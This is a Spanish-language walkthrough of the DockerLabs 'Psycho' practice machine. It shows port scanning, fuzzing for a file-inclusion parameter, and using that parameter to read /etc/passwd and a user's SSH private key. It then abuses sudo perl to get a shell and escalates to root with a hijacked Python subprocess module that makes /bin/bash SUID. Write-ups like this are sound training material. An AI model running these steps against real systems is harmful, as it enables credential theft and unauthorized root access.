 ```yaml
---
title: Psycho
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-24
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-psycho/psycho_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - ssh
  - http
  - tcp
  - fuzzing_web
  - lfi
  - suid
  - sudo_abuse
  - information_gathering
  - web_analysis
  - vulnerability_exploitation
  - lateral_movement
  - lateral_movement
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/psycho:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.049 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.049/0.049/0.049/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/psycho:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv 127.17.0.2 -n -Pn -oG nmap1
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///      Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/psycho:-$ sudo nmap -sCV -p22,80 -vvv 127.17.0.2 -oN nmap2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 38:bb:36:a4:18:60:ee:a8:d1:0a:61:97:6c:83:06:05 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLmfDz6T3XGKWifPXb0JRYMnpBIhNV4en6M+lkDFe1l/+EjBi+8MtlEy6EFgPI9TZ7aTybt2qudKJ8+r3wcsi8w=
|   256 a3:4e:4f:6f:76:f2:ba:50:c6:1a:54:40:95:9c:20:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHtGVi9ya8KY3fjIqNDQcC9RuW20liVFDd+uUEgllPzQ
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: 4You
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/dockerlabs/psycho:-$ whatweb 127.17.0.2     
http://127.17.0.2 [200 OK] Apache[2.4.58], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[127.17.0.2], Script, Title[4You]
```

---
## Web Analysis & Vulnerability Exploitation

Durante el análisis inicial de una página web estática, no se detecta contenido relevante.

![](assets/img/dockerlabs-writeup-psycho/psycho1_1.png)

Sin embargo, al inspeccionar el código fuente, se encuentra una línea peculiar fuera de las etiquetas HTML, `[!] ERROR [!]`. Esto sugiere que la página podría ser vulnerable a LFI, ya que errores de este tipo suelen revelar rutas accesibles o archivos cargados dinámicamente.

![](assets/img/dockerlabs-writeup-psycho/psycho1_2.png)

Enumero parámetros posibles en el sitio web, apuntando hacia la explotación de LFI.

```terminal
/home/kali/Documents/dockerlabs/psycho:-$ wfuzz -u http://127.17.0.2/index.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc=404 -c -t 200 --hw=169
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                        
=====================================================================

000005155:   200        88 L     199 W      3870 Ch     "secret"
```

El parámetro vulnerable detectado es `secret`. Verifico la vulnerabilidad cargando el archivo `/etc/passwd`.

![](assets/img/dockerlabs-writeup-psycho/psycho1_3.png)

```terminal
/home/kali/Documents/dockerlabs/psycho:-$ curl http://127.17.0.2/index.php?secret=/etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
vaxei:x:1001:1001:,,,:/home/vaxei:/bin/bash
```

Identifico la existencia del usuario `vaxei`. Aprovechando la vulnerabilidad, extraigo la clave privada del usuario `vaxei` desde su directorio `.ssh`

```terminal
/home/kali/Documents/dockerlabs/psycho:-$ curl http://127.17.0.2/index.php?secret=/home/vaxei/.ssh/id_rsa | sed '/<body>/d; /<\/body>/d; /<head>/d; /<\/head>/d'

/home/kali/Documents/dockerlabs/psycho:-$ chmod 600 id_rsa

/home/kali/Documents/dockerlabs/psycho:-$ ssh vaxei@127.17.0.2 -i id_rsa

vaxei@kali:~$ id
uid=1001(vaxei) gid=1001(vaxei) groups=1001(vaxei),100(users)
```

---
## Lateral Movement

```terminal
vaxei@kali:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
vaxei:x:1001:1001:,,,:/home/vaxei:/bin/bash
luisillo:x:1002:1002::/home/luisillo:/bin/sh
```

El usuario `vaxei` puede ejecutar `perl` como el usuario `luisillo` sin necesidad de contraseña.

```terminal
vaxei@kali:~$ sudo -l
Matching Defaults entries for vaxei on kali:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User vaxei may run the following commands on kali:
    (luisillo) NOPASSWD: /usr/bin/perl
```

Según la documentación de [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#sudo), `perl` puede usarse para ejecutar comandos del sistema.

```terminal
vaxei@kali:~$ sudo -u luisillo perl -e 'exec "/bin/sh";'

$ id
uid=1002(luisillo) gid=1002(luisillo) groups=1002(luisillo)
```

---
## Privilege Escalation

```terminal
$ script /dev/null -c bash
```

El usuario `luisillo` puede ejecutar el script `/opt/paw.py` como cualquier usuario `(ALL)`, sin necesidad de contraseña.

```terminal
luisillo@kali:~$ sudo -l
Matching Defaults entries for luisillo on kali:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on kali:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py
```

El archivo `/opt/paw.py` contiene varias funciones que simulan procesamiento de datos y cálculos inútiles.

```terminal
luisillo@kali:~$ cat /opt/paw.py
```

![](assets/img/dockerlabs-writeup-psycho/psycho2_1.png)

Sin embargo, en la función `run_command`, el script ejecuta un comando mediante `subprocess.run`. Este es un punto explotable ya que `subprocess.run` intenta ejecutar `echo Hello!`, pero no encuentra el archivo, causando un error.

```terminal
luisillo@kali:~$ sudo python3 /opt/paw.py
```

![](assets/img/dockerlabs-writeup-psycho/psycho2_2.png)

El script usa la librería subprocess desde el directorio `/opt/`. Si creó un archivo malicioso llamado `subprocess.py` en dicho directorio, Python lo importará debido a su ubicación en el mismo directorio que el script.

Esto permite reemplazar el comportamiento de la librería estándar con un código que escale privilegios.

```terminal
luisillo@kali:~$ cat /opt/subprocess.py 
import os

os.system("chmod u+s /bin/bash")
```

Se ejecuta el script original, lo que provoca que importe y ejecute el archivo malicioso `subprocess.py`.

```terminal
luisillo@kali:~$ sudo python3 /opt/paw.py
```

Después de ejecutar el script, los permisos del binario `/bin/bash` cambian para permitir su ejecución como `root`.

```terminal
luisillo@kali:~$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

```terminal
luisillo@kali:~$ /bin/bash -p
bash-5.2# id
uid=1002(luisillo) gid=1002(luisillo) euid=0(root) groups=1002(luisillo)
```
